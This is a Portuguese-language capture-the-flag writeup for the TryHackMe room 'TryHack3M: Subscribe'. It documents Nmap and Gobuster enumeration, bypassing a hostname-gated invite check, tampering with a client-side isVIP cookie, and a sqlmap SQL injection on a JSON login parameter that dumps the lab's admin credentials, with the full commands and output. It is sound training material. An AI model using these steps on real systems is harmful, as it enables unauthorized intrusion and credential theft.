# 🎉 TryHack3M: Subscribe — CTF Writeup
### TryHackMe | Web Exploitation · Client-Side Trust Bypass · Source Code Disclosure · SQL Injection (sqlmap) · Investigação de Incidente (Splunk/SIEM)

---

| **Analista**          | Mauricio Robert                                                                        |
|-----------------------|----------------------------------------------------------------------------------------|
| **Organização**       | Faculdade Impacta                                                                      |
| **Data do Relatório** | 26/08/2026                                                                             |
| **Data do Pentest**   | 25/08/2026 · 20:17 – 22:34 (GMT+0000)                                                  |
| **Alvo**              | `hackme.thm` / `capture3millionsubscribers.thm` (`10.64.145.247`) — TryHackMe · TryHack3M: Subscribe |
| **Classificação**     | CONFIDENCIAL                                                                           |
| **Ferramentas**       | Nmap · Gobuster · DevTools (Console/View-Source) · Burp Suite Community · sqlmap · Splunk Enterprise (SIEM) |
| **Plataforma**        | TryHackMe — Web Exploitation / SOC & SIEM Investigation                                |

---

## 🔍 Resumo Executivo

Este relatório documenta o comprometimento completo do desafio **TryHack3M: Subscribe** (TryHackMe), um cenário híbrido que combina **exploração ofensiva** de uma plataforma de treinamento fictícia (**Hack3M**) com uma etapa de **investigação de incidente (Blue Team/SIEM)** sobre um ataque histórico sofrido pelo mesmo alvo. O storyline do desafio relata que o site `hackme.thm` estava a **8 mil usuários de atingir a marca de 3 milhões de assinantes**, mas um grupo de invasores ("UnderGround Hackers") havia **desabilitado a página de cadastro** (`sign_up.php`), impedindo novos registros. A missão consistia em restaurar o painel de cadastro e, paralelamente, apurar como o ataque original havia ocorrido. A cadeia de exploração teve início com **reconhecimento via Nmap**, identificando, além do servidor web principal (porta 80), instâncias de **Splunk** (portas 8000/8089), **MongoDB** (porta 8191) e um serviço HTTP não documentado na porta **40009**. A enumeração de diretórios com **Gobuster** confirmou que `sign_up.php` retornava conteúdo, porém informando **"Registration is currently disabled! Invite-only access."** — a análise do arquivo `js/invite.js` revelou uma função JavaScript condicionada ao **hostname da requisição**, que só realizava a busca do código de convite quando acessada através do virtual host **`capture3millionsubscribers.thm`** (em vez de `hackme.thm`). Executando essa função diretamente no console do navegador, um **código de convite** foi obtido, permitindo a criação de uma conta de teste (`guest@hackme.thm:wedidit1010`). Uma vez autenticado, a inspeção do `document.cookie` no dashboard revelou um atributo de controle de acesso **inteiramente client-side** (`isVIP=false`), cuja alteração manual para `true` desbloqueou a sala de treinamento premium **"Advanced Red Teaming"**. O conteúdo dessa sala expôs, de forma inadvertida, um trecho de **código-fonte PHP** contendo um token de acesso (`$SECURE_TOKEN`) e a **URL de um painel administrativo oculto** (`http://admin1337special.hackme.thm:40009`) — validando a porta 40009 previamente identificada no Nmap. A enumeração desse painel com Gobuster revelou as rotas `login`, `logout` e `dashboard`; a requisição de login foi interceptada com **Burp Suite** e submetida ao **sqlmap**, que confirmou **SQL Injection** (boolean/error/time-based) no parâmetro JSON `username`, back-end **MySQL**, e permitiu o **dump da tabela `users`** da base `hackme`, revelando as credenciais reais do administrador (`admin:adminisadm1n`). Com acesso administrativo full, o cadastro foi restaurado, permitindo simbolicamente a chegada ao marco de 3 milhões de assinantes e a captura da flag na página de comemoração (`fireworks.../index.php`): `TryHack3M{3MSUBSCRIBERS}`. Na sequência, assumindo o papel de **analista de SOC**, o Splunk hospedado no próprio servidor (porta 8000) foi utilizado para investigar o ataque histórico: a volumetria total do índice (`index=main`) revelou **10.530 eventos**; o filtro pelo IP suspeito **`83.45.212.17`** demonstrou **184 requisições POST** ao endpoint `/api/login.php`; uma varredura por assinaturas de **User-Agent de ferramentas ofensivas conhecidas** (sqlmap, nikto, nmap, gobuster, dirbuster, metasploit, burp, entre outras) confirmou **158 eventos** originados do mesmo IP, todos com o User-Agent **`sqlmap/1.2.4#stable`**; e, por fim, uma busca direcionada por padrões de SQL Injection (`SELECT`, `FROM`, `information_schema`) recuperou o **payload malicioso original**, uma injeção **UNION-based** que extraiu credenciais da tabela `TryHack3M_users` filtrando pelo papel `admin` — confirmando que o ataque histórico sofrido pela plataforma utilizou exatamente a **mesma técnica e ferramenta** (sqlmap, SQLi) empregada nesta reavaliação ofensiva.

---

## 🛠 Ferramentas Utilizadas

| Ferramenta                          | Versão / Detalhe            | Finalidade                                                                             |
|--------------------------------------|-----------------------------|-----------------------------------------------------------------------------------------|
| **Nmap**                              | 7.99                        | Varredura de portas e serviços do alvo `10.64.145.247`                                  |
| **Gobuster**                           | 3.8.2                        | Enumeração de diretórios/arquivos em `hackme.thm` (porta 80) e no painel administrativo (porta 40009) |
| **DevTools (Console / View-Source)**  | Chromium                     | Análise de JavaScript client-side (`invite.js`), manipulação de cookies (`isVIP`) e leitura de código-fonte vazado |
| **Burp Suite Community Edition**      | 2026.7.3-52685               | Interceptação da requisição de login do painel administrativo para uso com sqlmap        |
| **sqlmap**                             | 1.2.4 (histórico) / atual    | Confirmação e exploração de SQL Injection no parâmetro JSON `username`, dump de bases/tabelas |
| **Splunk Enterprise**                  | 9.2.1                        | Investigação de incidente (SIEM) — análise de logs Apache históricos do ataque original  |

---

## 📋 Fases de Comprometimento

## 🔴 Parte 1 — Exploração Ofensiva

### FASE 1 — Reconhecimento de Rede (Nmap)

A varredura inicial contra o alvo `10.64.145.247` revelou uma superfície de ataque ampla, incluindo serviços não diretamente relacionados à aplicação principal:

```bash
nmap -p- --min-rate=5000 -Pn 10.64.145.247
```

```
PORT      STATE SERVICE
22/tcp    open  ssh
80/tcp    open  http
8000/tcp  open  http-alt
8089/tcp  open  unknown
8191/tcp  open  limnerpressure
40009/tcp open  unknown
```

A varredura de versão detalhada esclareceu a natureza de cada serviço:

```bash
nmap -sV -Pn -sS -sC -p 22,80,8000,8089,8191,40009 10.64.145.247
```

```
80/tcp    open  http     Apache httpd 2.4.41 ((Ubuntu))
|_http-title: Hack3M | Cyber Security Training
8000/tcp  open  http     Splunkd httpd
8089/tcp  open  ssl/http Splunkd httpd (free license; remote login disabled)
8191/tcp  open  mongodb  MongoDB 3.6 after 3.6.3, or 3.7.3 or later
40009/tcp open  http     Apache httpd 2.4.41
|_http-title: 403 Forbidden
```


Os achados principais foram:

- **Porta 80**: aplicação principal **Hack3M | Cyber Security Training**.
- **Portas 8000/8089**: instância **Splunk Enterprise**, indicando a existência de um ambiente de SIEM acessível para investigação posterior.
- **Porta 8191**: instância **MongoDB** exposta.
- **Porta 40009**: serviço HTTP retornando **403 Forbidden** na raiz — rota ainda não identificada nesta fase, mas que se revelaria posteriormente como o **painel administrativo oculto**.

---

### FASE 2 — Enumeração Web (Gobuster) e Descoberta do Storyline

A aplicação em `http://10.64.145.247/` foi enumerada com Gobuster:

```bash
gobuster dir -u http://10.64.145.247/ -w /usr/share/wordlists/seclists/Discovery/Web-Content/common.txt -x php,txt
```



```
config.php      (Status: 200) [Size: 0]
dashboard.php   (Status: 302) [--> login.php]
index.php       (Status: 200) [Size: 4499]
login.php       (Status: 200) [Size: 2875]
logout.php      (Status: 302) [--> login.php]
phpmyadmin      (Status: 301) [--> http://10.64.145.247/phpmyadmin/]
sign_up.php     (Status: 200) [Size: 2761]
subscribe.php   (Status: 302) [--> login.php]
```

A página inicial (`index.php`) apresentou a plataforma **Hack3M**, contabilizando **2.9M Registered Users**, e o **storyline oficial do desafio** foi revelado na própria interface da sala do TryHackMe:

> *"We have good news and bad news! The good news is that we are about to hit 3 million users on our platform, and the bad news is: Well, last night, the UnderGround (UG) Hackers attacked our website, `hackme.thm`, and took complete control. They were able to turn off the signup page, so no more users could register. Given this, our user count is stuck at 2.99 Million. Can you help us restore the registration panel on our site to reach our 3 million user milestone?"*

A rota **`sign_up.php`** confirmava exatamente esse cenário, exibindo a mensagem:

```
Registration is currently disabled! Invite-only access.
```

> 🚨 **Achado: cadastro de novos usuários bloqueado (`sign_up.php`), condicionado a um Código de Convite — validando o storyline do incidente.**

---

### FASE 3 — Bypass do Bloqueio de Cadastro: JavaScript Condicionado por Hostname

A análise do JavaScript client-side (`/js/invite.js`) revelou a lógica exata usada para liberar o código de convite:



```javascript
function e(){
  var e = window.location.hostname;
  if (e === "capture3millionsubscribers.thm") {
    var o = new XMLHttpRequest;
    o.open("POST", "inviteCode1337HM.php", true);
    o.onload = function(){
      if (this.status == 200) {
        console.log("Invite Code:", this.responseText)
      } else {
        console.error("Error fetching invite code.")
      }
    };
    o.send()
  } else if (e === "hackme.thm") {
    console.log("This function does not operate on hackme.thm")
  } else {
    console.log("Lol!! Are you smart enought to get the invite code?")
  }
}
```

A função **`e()`** só realiza a busca do código de convite (via POST para `inviteCode1337HM.php`) quando o **hostname da requisição** é exatamente **`capture3millionsubscribers.thm`** — um virtual host adicional apontando para o mesmo servidor (`10.64.145.247`), diferente do domínio principal `hackme.thm`. Após mapear esse hostname no arquivo `/etc/hosts` e acessar a aplicação por ele, a função foi executada manualmente no **Console do DevTools**:

```javascript
> e()
< undefined
Invite Code: VkXgo:Invited3OMnUsers
```

Com o código de convite em mãos, o formulário de `sign_up.php` foi submetido novamente, retornando uma credencial de teste:

```
Awesome, you did it! Your username and password are guest@hackme.thm:wedidit1010
```


> 🚨 **Vulnerabilidade: controle de acesso ao cadastro baseado exclusivamente no `hostname` da requisição (client-side), contornável ao acessar a aplicação por um virtual host alternativo (`capture3millionsubscribers.thm`).**

---

### FASE 4 — Escalonamento de Privilégio via Manipulação de Cookie (`isVIP`)

Autenticado como `guest@hackme.thm`, o dashboard (`capture3millionsubscribers.thm/dashboard.php`) exibia duas salas de treinamento: **Training Room 1: Introduction to Red Teaming** (gratuita) e **Training Room 2: Advanced Red Teaming** (marcada como **VIP**, bloqueada). A inspeção do cookie de sessão no Console revelou o mecanismo de controle de acesso:

```javascript
> document.cookie
< 'PHPSESSID=73ktufeti4juvttceb10kamagi; isVIP=false'
```

O atributo **`isVIP`** era mantido **inteiramente no lado do cliente**, sem qualquer validação server-side. Alterando seu valor para `true` diretamente no navegador, a sala **"Training Room 2: Advanced Red Teaming"** foi desbloqueada.


> 🚨 **Vulnerabilidade crítica: Broken Access Control — autorização de conteúdo premium (VIP) delegada a um cookie não assinado e controlado pelo cliente (`isVIP`).**

---

### FASE 5 — Vazamento de Código-Fonte: Descoberta do Painel Administrativo Oculto

O conteúdo da sala **Advanced Red Teaming** expôs, através de uma visualização de código embutida na própria página (exibida em um terminal simulado), um trecho de **PHP** contendo segredos reais da aplicação:

```php
<?php
$SECURE_TOKEN = "ACC#SS_TO_ADM1N_P@NEL";
$urlAdminPanel = "http://admin1337special.hackme.thm:40009";
?>
```

Esse vazamento confirmou e correlacionou a **porta 40009**, já identificada no Nmap (Fase 1) como um serviço HTTP não catalogado (403 Forbidden), como sendo o **painel administrativo oculto** da aplicação, acessível através do subdomínio **`admin1337special.hackme.thm`**.


> 🚨 **Achado crítico: exposição de código-fonte com credenciais/URLs sensíveis (`$SECURE_TOKEN`, `$urlAdminPanel`) dentro de conteúdo de treinamento supostamente "premium", revelando um painel administrativo não documentado.**

---

### FASE 6 — Enumeração do Painel Administrativo

Com o subdomínio mapeado, o painel foi enumerado com Gobuster:

```bash
gobuster dir -u http://admin1337special.hackme.thm:40009/public/html/ -w /usr/share/wordlists/seclists/Discovery/Web-Content/common.txt -t 70
```

```
dashboard  (Status: 403) [Size: 0]
logout     (Status: 200) [Size: 154]
login      (Status: 200) [Size: 1662]
```


A rota `login` exibiu o formulário **"HACKME.THM ADMIN PORTAL"**, exigindo autenticação para acessar o `dashboard` (protegido, 403 sem sessão válida).

---

### FASE 7 — Interceptação da Requisição de Login (Burp Suite)

Para viabilizar testes automatizados de SQL Injection, a requisição de autenticação foi interceptada com **Burp Suite**:

```
POST /api/login.php HTTP/1.1
Host: admin1337special.hackme.thm:40009
Content-Type: application/json
Cookie: PHPSESSID=qvjov2objfkh3g3jd107asf1uk

{
  "username":"admin",
  "password":"admin"
}
```


A requisição foi salva para uso posterior com o **sqlmap**, dado o formato de corpo em **JSON**, exigindo tratamento específico da ferramenta para reconhecer o parâmetro injetável.

---

### FASE 8 — SQL Injection via sqlmap: Dump de Credenciais Reais

O sqlmap foi apontado para a requisição de login capturada, mirando o parâmetro `username` do corpo JSON:

```bash
sqlmap -r login_request.txt -p username --batch
```



```
[INFO] (custom) POST parameter 'JSON username' appears to be 'AND boolean-based blind - WHERE or HAVING clause (subquery - comment)' injectable
[INFO] (custom) POST parameter 'JSON username' is 'MySQL >= 5.6 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (GTID_SUBSET)' injectable
[INFO] (custom) POST parameter 'JSON username' appears to be 'MySQL >= 5.0.12 AND time-based blind (query SLEEP)' injectable

[INFO] the back-end DBMS is MySQL
web server operating system: Linux Ubuntu 19.10 or 20.04 or 20.10 (eoan or focal)
web application technology: Apache 2.4.41
back-end DBMS: MySQL >= 5.6

available databases [6]:
[*] hackme
[*] information_schema
[*] mysql
[*] performance_schema
[*] phpmyadmin
[*] sys
```

Confirmada a injeção (boolean-based, error-based e time-based blind), a tabela **`users`** da base **`hackme`** foi extraída:

```bash
sqlmap -r login_request.txt -p username -D hackme -T users --dump --batch
```

```
Database: hackme
Table: users
[1 entry]
+----+------------------+-----------+------+--------+--------------+----------+
| id | email            | name      | role | status | password     | username |
+----+------------------+-----------+------+--------+--------------+----------+
| 1  | admin@hackme.thm | Admin User| admin| 1      | adminisadm1n | admin    |
+----+------------------+-----------+------+--------+--------------+----------+
```

O dump revelou as credenciais reais do administrador — de forma quase humorística, a senha do usuário `admin` era literalmente **`adminisadm1n`**.


> 🚨 **Vulnerabilidade crítica: SQL Injection no parâmetro JSON `username` de `/api/login.php`, permitindo extração completa das credenciais administrativas em texto claro.**

---

### FASE 9 — Autenticação Administrativa e Captura da Flag

Com as credenciais `admin:adminisadm1n`, o acesso ao painel `admin1337special.hackme.thm:40009/dashboard` foi concedido, permitindo restaurar simbolicamente o **cadastro de novos usuários** e completar o marco de **3 milhões de assinantes** proposto pelo storyline. A confirmação do sucesso foi entregue em uma página de comemoração dinâmica:

```
capture3millionsubscribers.thm/fireworks10123123bb11210231/index.php
```

```
Congratulations!
Thank you for being part of hack3m.thm family.

Flag value: TryHack3M{3MSUBSCRIBERS}
```

